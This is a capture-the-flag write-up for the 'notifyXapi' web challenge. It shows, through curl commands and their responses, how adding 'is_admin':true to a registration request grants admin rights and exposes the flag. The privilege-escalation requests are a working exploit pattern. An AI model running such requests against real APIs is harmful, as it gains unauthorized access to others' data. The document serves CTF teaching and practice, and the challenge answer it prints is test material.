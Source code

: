 # notifyXapi

### Challenge

- **Category**: Web

Reynholm Industries needed a system to issue notifications/messages for their employees. Maurice Moss, coding genius of The IT crowd, was assigned with the task to create one. The basic idea was that upper-level employees can create and view all the notifications. The lower-level employees shouldn't be able to read the confidential upper-level only notifications. Is Maurice really a coding genius ?

Challenge link: <https://notifyxapi.rootersctf.in/>

![](Images/1.png)

### Solution

When I entered in the web application i saw three api methods:

1. Register

   ```bash
   $ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/register/" -H "Content-Type: application/json" \
   -d '{"email": "test@test.com", "password": "password"}'
   ```

   

2. Login

   ```bash
   $ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/login/" -H "Content-Type: application/json" \
   -d '{"email": "test@test.com", "password": "password"}'
   ```

   

3. Creating Notifications

   ```bash
   $ export ACCESS="j.w.t"
   $ curl -H "Authorization: Bearer $ACCESS" -H "Content-Type: application/json" "https://notifyxapi.rootersctf.in/api/v1/notifications/"
   ```

   

When I registered a user I realized that in the response of the request there was a parameter called "**is_admin**" with value **false**.

```bash
$ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/register/" -H "Content-Type: application/json" -d '{"email": "cynops@test.com", "password": "password"}'

{"created_user":{"id":331,"user":{"email":"cynops@test.com","is_admin":false,"id":331},"authentication_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE1NzA4MzA1MTksIm5iZiI6MTU3MDgzMDUxOSwianRpIjoiMmZhYjViZDUtNDU2MC00NzQ2LWFiMTItN2FhM2I4NTk3ZmJjIiwiZXhwIjoxNjAyMzY2NTE5LCJpZGVudGl0eSI6MzMxLCJmcmVzaCI6ZmFsc2UsInR5cGUiOiJhY2Nlc3MifQ.pOtqBY4g-aaQh4VNbUH5T_hakpXCuJHefDI4jYKQsNY"}}

```

So i decided to create a new user and add in the request the parameter "**is_admin**" with value **true**.

The new user has administrator privileges so we can see the notifications of all users and therefore the flag.

```bash
$ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/login/" -H "Content-Type: application/json" -d '{"email": "cynops_admin@test.com", "password": "password", "is_admin":true}'

{"created_user":{"id":363,"user":{"email":"cynops_admin@test.com","is_admin":true,"id":363},"authentication_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE1NzA4NzA5MDYsIm5iZiI6MTU3MDg3MDkwNiwianRpIjoiMGExOTA3MTktMTU2Yi00NzA2LWIwODEtMmE2Y2Q1YTFlY2ZmIiwiZXhwIjoxNjAyNDA2OTA2LCJpZGVudGl0eSI6MzYzLCJmcmVzaCI6ZmFsc2UsInR5cGUiOiJhY2Nlc3MifQ.zl8IJgILpDn2Z-kBUXsr2hk6qxoCpk-xbpqYNyz7JKs"}}

```

To retrieve the flag you only need to request the notifications with the new admin user token.

```bash
$ export ACCESS=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE1NzA4NzA5MDYsIm5iZiI6MTU3MDg3MDkwNiwianRpIjoiMGExOTA3MTktMTU2Yi00NzA2LWIwODEtMmE2Y2Q1YTFlY2ZmIiwiZXhwIjoxNjAyNDA2OTA2LCJpZGVudGl0eSI6MzYzLCJmcmVzaCI6ZmFsc2UsInR5cGUiOiJhY2Nlc3MifQ.zl8IJgILpDn2Z-kBUXsr2hk6qxoCpk-xbpqYNyz7JKs

curl -H "Authorization: Bearer $ACCESS" -H "Content-Type: application/json" "https://notifyxapi.rootersctf.in/api/v1/notifications/"

[{"body":"rooters{a_big_hard_business_in_a_big_hard_building}ctf","issuer":{"email":"admin@test.com","id":1},"id":1,"title":"flag"},{"body":"hey, rosssssss","issuer":{"email":"test@test.com","id":2},"id":2,"title":"The IT Crowd"},{"body":"Jen Barber? Is that the internet?","issuer":{"email":"test@test.com","id":2},"id":3,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":4,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":5,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":6,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":7,"title":"'"}]
```

> Flag: rooters{a_big_hard_business_in_a_big_hard_building}ctf